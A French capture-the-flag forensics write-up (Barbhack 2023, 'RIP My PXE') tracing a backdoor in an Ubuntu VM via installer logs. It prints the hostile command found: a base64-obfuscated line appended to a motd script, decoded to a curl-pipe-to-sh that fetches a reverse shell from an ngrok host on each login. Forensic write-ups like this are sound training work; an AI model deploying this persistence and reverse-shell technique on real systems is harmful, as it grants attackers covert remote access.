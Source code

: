 ```yaml
---
layout: post
title: Rip My PXE
category: Barbhack-2023
---
```


# RIP_My_PXE

**Catégorie :** Forensic

![Enonce](/assets/img/barbhack2023/ripmypxe/enonce-rip-my-pxe.png)

Nous récupérons ici une machine virtuelle que nous importons dans virtualbox.

![upload-vm](/assets/img/barbhack2023/ripmypxe/upload-vm.png)

Après avoir démarré cette machine nous obtenons la mire d'authentification pour l'utilisateur `ubuntu`  :

![Ubuntu user](/assets/img/barbhack2023/ripmypxe/user-ubuntu.png)

Le mot de passe `ubuntu` est valide et nous permet de déverrouiller la session.

Nous devons retrouver les traces d'un shell, donc nous cherchons à observer dans un premier temps les processus, l'historique de commande de l'utilisateur, les fichiers disponibles, les historiques de navigation web et les fichiers de log.

- Historique de commande

![command-history](/assets/img/barbhack2023/ripmypxe/command-history.png)

- Processus

![ps-aux](/assets/img/barbhack2023/ripmypxe/ps-aux.png)

- Historique de navigation

![firefox-history](/assets/img/barbhack2023/ripmypxe/firefox-history.png)

- Fichiers de l'utilisateur

![documents](/assets/img/barbhack2023/ripmypxe/documents.png)

- Fichiers de logs

Nous ne trouvons rien dans les fichiers de logs par défaut et notre attention se porte sur le dossier `installer` présent dans `/var/log/` :

![log-subiquity](/assets/img/barbhack2023/ripmypxe/log-subiquity.png)

Nous retrouvons dans le fichier `subiquity-server-debug.log.2368` la commande qui a permis d'insérer la backdoor :

![backdoor-command](/assets/img/barbhack2023/ripmypxe/backdoor-command.png)

```bash
echo 'echo -n Y3VybCBodHRwczovL3JldmVyc2Utc2hlbGwuc2gvMC50Y3AuZXUubmdyb2suaW86MTcyMjQgfCBzaCAgJg== | base64 -d | sh' >> /target/etc/update-motd.d/00-header
```

L'opération effectué ici est le décodage de la chaîne en base 64 à la fin du fichier `/etc/update-motd.d/00-header`.

Nous décodons donc la chaîne de base 64 :

```bash
curl https://reverse-shell.sh/0.tcp.eu.ngrok.io:17224 | sh  &
```

Cette commande va donc récupérer un reverse shell et le lancer à chaque fois que l'affichage du motd sera déclenché. Nous obtenons donc la première partie du flag **`brb{0.tcp.eu.ngrok.io:17224:nom_du_binaire}`**.

Nous devons trouver le nom du binaire qui à déclenché la backdoor, donc par conséquent, l'affichage du motd. Par défaut le motd est affiché à chaque nouvelle connexion distante sur le système, nous avons aperçu l'utilisation de commandes `ssh`, `telnet` et `ftp`.

Nous tentons le flag : **`brb{0.tcp.eu.ngrok.io:17224:ssh}`** qui sera validé par la plateforme du ctf.%